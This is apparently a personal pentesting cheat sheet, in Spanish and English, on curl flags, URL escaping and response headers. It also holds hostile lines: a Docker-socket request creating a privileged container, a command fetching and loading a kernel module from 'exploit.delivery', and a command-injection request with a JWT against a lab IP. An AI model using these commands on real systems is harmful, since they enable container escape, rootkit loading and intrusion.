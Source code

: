 # Curl


curl -v (--verbose)

escapar los corchetes con %5B para [ y %5D para ]

Incorrecto

    curl -v http://internal-api-organization.abc/king/prod/alertas/[Flaco] Read ssh information/escalation-policies  

Correcto

    curl -v http://internal-api-organization.abc/king/prod/alert-types/%5BFlaco%5D%20Read%20ssh%20information/escalation-policies


Se pueden ver cabeceras

    X-Content-Type-Options: nosniff
    X-Request-ID:
    X-Frame-Options: DENY
    X-XSS-Protection: 1; mode=block
    X-Nginx-Host:
    X-Nginx-Pool:
    X-Nginx-UpstreamHost:
    X-Upstream-Server: envoy


Incluir encabezados en la respuesta

    curl -i (Incluir encabezados en la respuesta)


Mostrar el tiempo de conexión y otras métricas con -w


https://gist.github.com/subfuzion/08c5d85437d5d4f00e58




    curl --unix-socket $SOCKPATH -d '{"Image":"bad", "Privileged":"true"}' -H 'Content-Type: application/json' 0/containers/create

    curl -O exploit.delivery/bad.ko && insmod bad.ko


    Get a file from an SSH server using SFTP:

    curl -u username sftp://example.com/etc/issue
    Get a file from an SSH server using SCP using a private key (not password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa scp://example.com/~/file.txt
    Get a file from an SSH server using SCP using a private key (password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa --pass private_key_password
    scp://example.com/~/file.txt

    curl -A 'Mozilla/3.0 (Win95; I)' http://www.bank.example.com/


Reference

    https://curl.se/docs/tutorial.html


    https://www.lazyhackers.in/posts/curl-command-cheat-sheet-for-penetration-testing


    https://github.com/frizb/HackingWithCurl


    https://cyber4hack.com/comando-curl-para-pentesting/


    $ curl --referer

    https://manasharsh.medium.com/hacking-with-curl-unleash-the-cli-beast-fdf13ec342cc

curl que carga archivo (bee)



    time curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU5ODE3M2ZjMDkzOTA0NjJmOTFiYWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InNlY25pZ21hQHRlc3QuY29tIiwiaWF0IjoxNjQyNjkzMTkyfQ.dxEs0eV1nPf4CctskzZ1DlWeOgi7tWaYHBD29A7gfx8' 'http://10.10.11.120/api/logs?file=.env;sleep+5;'